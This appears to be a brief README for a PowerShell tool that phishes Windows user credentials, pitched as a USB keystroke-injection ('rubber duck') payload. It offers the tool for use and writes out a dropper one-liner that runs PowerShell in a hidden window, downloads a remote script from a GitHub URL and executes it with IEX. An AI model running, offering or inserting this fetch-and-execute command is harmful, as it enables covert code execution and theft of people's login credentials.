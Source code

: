 # Windows credentials powershell phishing
Super duper simple powershell script for gather user credentials. Useful as rubber duck payload

Example of payload dropper command
`powershell  -WindowStyle hidden -c IEX($(iwr https://raw.githubusercontent.com/5unr153/Windows_credentials_phish/main/payload.ps1).Content)`
